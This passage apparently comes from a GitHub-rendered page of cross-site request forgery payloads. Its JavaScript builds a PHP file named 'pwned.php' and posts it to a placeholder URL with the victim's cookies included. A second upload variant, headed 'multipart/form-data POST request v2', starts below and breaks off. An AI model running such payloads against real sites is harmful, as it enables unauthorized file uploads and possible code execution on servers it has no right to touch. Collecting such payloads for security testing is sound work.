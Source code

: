 <span class="pl-k">var</span> <span class="pl-s1">blob</span> <span class="pl-c1">=</span> <span class="pl-k">new</span> <span class="pl-v">Blob</span><span class="pl-kos">(</span><span class="pl-kos">[</span><span class="pl-s">"&lt;?php phpinfo(); ?&gt;"</span><span class="pl-kos">]</span><span class="pl-kos">,</span> <span class="pl-kos">{</span> <span class="pl-c1">type</span>: <span class="pl-s">"text/text"</span><span class="pl-kos">}</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
<span class="pl-s1">myFormData</span><span class="pl-kos">.</span><span class="pl-en">append</span><span class="pl-kos">(</span><span class="pl-s">"newAttachment"</span><span class="pl-kos">,</span> <span class="pl-s1">blob</span><span class="pl-kos">,</span> <span class="pl-s">"pwned.php"</span><span class="pl-kos">)</span><span class="pl-kos">;</span>
<span class="pl-en">fetch</span><span class="pl-kos">(</span><span class="pl-s">"http://example/some/path"</span><span class="pl-kos">,</span> <span class="pl-kos">{</span>
    <span class="pl-c1">method</span>: <span class="pl-s">"post"</span><span class="pl-kos">,</span>
    <span class="pl-c1">body</span>: <span class="pl-s1">myFormData</span><span class="pl-kos">,</span>
    <span class="pl-c1">credentials</span>: <span class="pl-s">"include"</span><span class="pl-kos">,</span>
    <span class="pl-c1">headers</span>: <span class="pl-kos">{</span><span class="pl-s">"Content-Type"</span>: <span class="pl-s">"application/x-www-form-urlencoded"</span><span class="pl-kos">}</span><span class="pl-kos">,</span>
    <span class="pl-c1">mode</span>: <span class="pl-s">"no-cors"</span>
<span class="pl-kos">}</span><span class="pl-kos">)</span><span class="pl-kos">;</span></pre><div class="zeroclipboard-container position-absolute right-0 top-0">
    <clipboard-copy aria-label="Copy" class="ClipboardButton btn js-clipboard-copy m-2 p-0 tooltipped-no-delay" data-copy-feedback="Copied!" data-tooltip-direction="w" value="myFormData = new FormData();
var blob = new Blob([&quot;<?php phpinfo(); ?>&quot;], { type: &quot;text/text&quot;});
myFormData.append(&quot;newAttachment&quot;, blob, &quot;pwned.php&quot;);
fetch(&quot;http://example/some/path&quot;, {
    method: &quot;post&quot;,
    body: myFormData,
    credentials: &quot;include&quot;,
    headers: {&quot;Content-Type&quot;: &quot;application/x-www-form-urlencoded&quot;},
    mode: &quot;no-cors&quot;
});
" tabindex="0" role="button">
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-copy js-clipboard-copy-icon m-2">
    <path fill-rule="evenodd" d="M0 6.75C0 5.784.784 5 1.75 5h1.5a.75.75 0 010 1.5h-1.5a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-1.5a.75.75 0 011.5 0v1.5A1.75 1.75 0 019.25 16h-7.5A1.75 1.75 0 010 14.25v-7.5z"></path><path fill-rule="evenodd" d="M5 1.75C5 .784 5.784 0 6.75 0h7.5C15.216 0 16 .784 16 1.75v7.5A1.75 1.75 0 0114.25 11h-7.5A1.75 1.75 0 015 9.25v-7.5zm1.75-.25a.25.25 0 00-.25.25v7.5c0 .138.112.25.25.25h7.5a.25.25 0 00.25-.25v-7.5a.25.25 0 00-.25-.25h-7.5z"></path>
</svg>
      <svg aria-hidden="true" height="16" viewBox="0 0 16 16" version="1.1" width="16" data-view-component="true" class="octicon octicon-check js-clipboard-check-icon color-text-success d-none m-2">
    <path fill-rule="evenodd" d="M13.78 4.22a.75.75 0 010 1.06l-7.25 7.25a.75.75 0 01-1.06 0L2.22 9.28a.75.75 0 011.06-1.06L6 10.94l6.72-6.72a.75.75 0 011.06 0z"></path>
</svg>
    </clipboard-copy>
  </div></div>
<h3 dir="auto"><a id="user-content-multipartform-data-post-request-v2" class="anchor" aria-hidden="true" href="#multipartform-data-post-request-v2"><svg class="octicon octicon-link" viewBox="0 0 16 16" version="1.1" width="16" height="16" aria-hidden="true"><path fill-rule="evenodd" d="M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z"></path></svg></a>multipart/form-data POST request v2</h3>
<div class="highlight highlight-source-js position-relative overflow-auto"><pre><span class="pl-k">var</span> <span class="pl-s1">fileSize</span> <span class="pl-c1">=</span> <span class="pl-s1">fileData</span><span class="pl-kos">.</span><span class="pl-c1">length</span><span class="pl-kos">,</span>
<span class="pl-s1">boundary</span> <span class="pl-c1">=</span> <span class="pl-s">"OWNEDBYOFFSEC"</span><span class="pl-kos">,</span>
